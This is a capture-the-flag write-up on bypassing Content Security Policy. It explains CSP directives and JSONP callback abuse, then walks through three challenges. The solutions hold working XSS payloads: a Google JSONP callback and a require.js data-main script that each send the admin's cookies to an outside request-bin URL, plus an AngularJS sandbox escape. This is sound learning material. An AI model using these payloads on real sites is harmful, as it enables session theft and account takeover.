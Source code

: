 # XSS

Some notes about CSP:

1. **`default-src`** directive serves as a fallback for the other CSP [fetch directives](https://developer.mozilla.org/en-US/docs/Glossary/Fetch_directive). For each of the following directives that are absent, the user agent looks for the `default-src` directive and uses this value for it.

2. The **`script-src`** directive specifies valid sources for JavaScript. This includes not only URLs loaded directly into [`<script>`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/script) elements, but also things like inline script event handlers (`onclick`) and [XSLT stylesheets](https://developer.mozilla.org/en-US/docs/Web/XSLT) which can trigger script execution.

3. `object-src 'none'` Prevents fetching and executing plugin resources embedded using `<object>`, `<embed>` or `<applet>` tags. The most common example is Flash.

4. `script-src nonce-{random} 'unsafe-inline'` The `nonce` directive means that `<script>` elements will be allowed to execute only if they contain a _nonce_ attribute matching the randomly-generated value which appears in the policy.

   _Note: In the presence of a CSP nonce the `unsafe-inline` directive will be ignored by modern browsers. Older browsers, which don't support nonces, will see `unsafe-inline` and allow inline scripts to execute._

5. `script-src 'strict-dynamic' https: http:` 'strict-dynamic' allows the execution of scripts dynamically added to the page, as long as they were loaded by a safe, already-trusted script (see the [specification](https://w3c.github.io/webappsec-csp/#strict-dynamic-usage)).

   _Note: In the presence of 'strict-dynamic' the https: and http: whitelist entries will be ignored by modern browsers. Older browsers will allow the loading of scripts from any URL._

6. `'unsafe-eval'` allows the application to use the `eval()` JavaScript function. This reduces the protection against certain types of DOM-based XSS bugs, but makes it easier to adopt CSP. If your application doesn't use `eval()`, you can remove this keyword and have a safer policy. More on the `eval` function:

## Recall: What is API callback and why are we using it?

From [Bypassing CSP by Abusing JSONP Endpoints | by Mazin Ahmed | Medium](https://medium.com/@mazin.ahmed/bypassing-csp-by-abusing-jsonp-endpoints-47cf453624d5):

JSONP APIs normally works by having a parameter that sets a callback, so that users of the JSONP API can freely use the API according to their code. The GET parameter is reflected on the response in the 0 offset. This means that we basically control the start of the response body. JavaScript is a very dynamic language. It dynamically allows us to do many things we should not do, and are not supposed to do. Let’s use some of JavaScript magic to our side here. What if we enter:

> alert(1);//

as our callback? If no proper sanitization is done on the JSONP endpoint, it will be reflected as the following:

> alert(1);//{“name”: “Mazin”}

This is technically a correct JavaScript code! The syntax is correct as the rest of the response of commented out. JS engines would treat the data as a typical JavaScript code instead of a JSONP endpoint.

## babycsp

Valid JSONP belonging to `*.google.com` that we can use:

`<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>`

Since the CSP of the website is:

```javascript
default-src 'self'; script-src 'self' *.google.com; connect-src *
```

### The exploit

We need a page that makes an HTTP req to reqbins, and that sends to it all the cookies. Then we use the XSS vulnerability on the website of the challenge to make the admin visit that webpage, and we should be all set. More specifically those are the steps to follow:

1. First we setup our requestbin and we copy its url
2. Then we execute a GET to the homepage of the challenge to create a session
3. We perform a POST to create the content on the webapp
4. Then we perform a GET to make the admin visit the url of our post. When loaded it will execute or javascript code, this performing the XSS attack which will send the admin's cookies to our request bin by performing a POST to it with the cookies encoded in the headers.

This is the javascript payload:

```python
payload = """
<script src="https://accounts.google.com/o/oauth2/revoke?callback=
window.location.href = ''.concat('""" + HOOK + """?c=', document.cookie);
"></script>
"""
```

Where `HOOK` is the url of the request bin. Putting that in a post and sending it to the admin will allow us to send the session cookie of the admin, which contains the flag, to our bin embedded as request parameter.

## csp

```javascript
Content-Security-Policy: default-src https://www.google.com https://ajax.googleapis.com 'unsafe-eval'; style-src 'self' https://maxcdn.bootstrapcdn.com/bootstrap/; font-src 'self' https://maxcdn.bootstrapcdn.com/bootstrap/;object-src 'none'
```

Because of `object-src 'none'` we cannot use object, embed or applet tags.

We have user input escaping. More specifically, if I send this text:

```
'';!--"<XSS>=&{()}
```

This is what gets printed:

```
&#39;&#39;;!--&quot;&lt;XSS&gt;=&amp;{()}
```

Which means that we only have `; ! - = {} ()`. Still, we have a vulnerability. In fact there's a specific field, which is the one that is used to add participant names to the event, which is not escaped. As such we can use it to carry our exploit.

### First approach

Now that we have some attack surface, I started trying some exploits.

- First off, from [Content Security Policy (CSP) Bypass - HackTricks](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass):

  `Content-Security-Policy: script-src https://google.com 'unsafe-eval'; `

  Working payload:` <script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>`

  But that did not work:

  `Caricamento non riuscito per lo <script> con sorgente “data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==”.`.

- This looked promising: `<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>`, but the GET request returns 404.

- `<embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1337)}//' allowscriptaccess=always>` this would not work because this csp blocks embed tags.

- This actually worked:

  ```html
  >
  <script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
  ```

  But this is tricky, because it basically executes the url and it puts the result as function argument, in this case we've got an `alert`, which means that the result of that google search will be printed as an alert by the browser.

- This other one `<script src="https://www.google.com/tools/feedback/escalation-options?callback=alert(1337)"></script>` actually does something, but from the look of it, its not useful: it just returns a GET with this body:

  ```javascript
  // API callback
  alert1337({});
  ```

### Solution

A bit disappointing, since I solved this with random code found on the internet. From [CSP - Pentest Book (six2dez.com)](https://pentestbook.six2dez.com/enumeration/web/csp):

```html
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.4.6/angular.js"></script>
<div ng-app>
  {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
</div>
```

**Note**: the payload must be at most 255 characters long!

## strict-csp

```javascript
Content-Security-Policy: default-src 'self'; script-src 'strict-dynamic' 'nonce-Iyt3N79hSx'; style-src 'self' https://stackpath.bootstrapcdn.com/bootstrap/; font-src 'self' https://stackpath.bootstrapcdn.com/bootstrap/;object-src 'none'
```

Here we've got a problem: we have a nonce implemented in the CSP. First thing off, I vaidated it with [CSP Evaluator (csp-evaluator.withgoogle.com)](https://csp-evaluator.withgoogle.com/). From that we can see that we've got a problem derivating from the fact that `base-uri` is missing:

> Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain. Can you set it to 'none' or 'self'?

And the same goes for `require-trusted-types-for`:

> Consider requiring Trusted Types for scripts to lock down DOM XSS injection sinks. You can do this by adding "require-trusted-types-for 'script'" to your policy.

The exploit surface here is the `require.js` file. This is enough to solve the challenge:

```html
<script
  data-main='data:1,window.location.href="https://en1lv1e4jrpywf5.m.pipedream.net?c"+document.cookie;'
  src="require.js"
></script>
```

